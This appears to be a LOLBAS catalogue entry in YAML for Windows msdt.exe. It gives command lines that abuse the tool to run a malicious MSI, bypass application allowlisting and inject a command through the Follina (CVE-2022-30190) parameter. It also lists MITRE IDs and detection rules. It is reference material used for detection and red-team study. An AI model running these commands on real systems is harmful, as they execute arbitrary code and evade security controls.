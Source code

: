 ```yaml
---
Name: Msdt.exe
Description: Microsoft diagnostics tool
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: msdt.exe -path C:\WINDOWS\diagnostics\index\PCWDiagnostic.xml -af C:\PCW8E57.xml /skip TRUE
    Description: Executes the Microsoft Diagnostics Tool and executes the malicious .MSI referenced in the PCW8E57.xml file.
    Usecase: Execute code
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Application: GUI
      - Execute: MSI
  - Command: msdt.exe -path C:\WINDOWS\diagnostics\index\PCWDiagnostic.xml -af C:\PCW8E57.xml /skip TRUE
    Description: Executes the Microsoft Diagnostics Tool and executes the malicious .MSI referenced in the PCW8E57.xml file.
    Usecase: Execute code bypass Application whitelisting
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Application: GUI
      - Execute: MSI
  - Command: msdt.exe /id PCWDiagnostic /skip force /param "IT_LaunchMethod=ContextMenu IT_BrowseForFile=/../../$(calc).exe"
    Description: Executes arbitrary commands using the Microsoft Diagnostics Tool and leveraging the "PCWDiagnostic" module (CVE-2022-30190). Note that this specific technique will not work on a patched system with the June 2022 Windows Security update.
    Usecase: Execute code bypass Application allowlisting
    Category: AWL Bypass
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Application: GUI
      - Execute: CMD
Full_Path:
  - Path: C:\Windows\System32\Msdt.exe
  - Path: C:\Windows\SysWOW64\Msdt.exe
Code_Sample:
  - Code: https://raw.githubusercontent.com/LOLBAS-Project/LOLBAS/master/OSBinaries/Payload/PCW8E57.xml
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6199a703221a98ae6ad343c79c558da375203e4e/rules/windows/process_creation/proc_creation_win_lolbin_msdt_answer_file.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_msdt_arbitrary_command_execution.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_network_connection_from_windows_binary.toml
Resources:
  - Link: https://web.archive.org/web/20160322142537/https://cybersyndicates.com/2015/10/a-no-bull-guide-to-malicious-windows-trouble-shooting-packs-and-application-whitelist-bypass/
  - Link: https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/
  - Link: https://twitter.com/harr0ey/status/991338229952598016
  - Link: https://twitter.com/nas_bench/status/1531944240271568896
Acknowledgement:
  - Person: Nasreddine Bencherchali
    Handle: '@nas_bench'
---
```

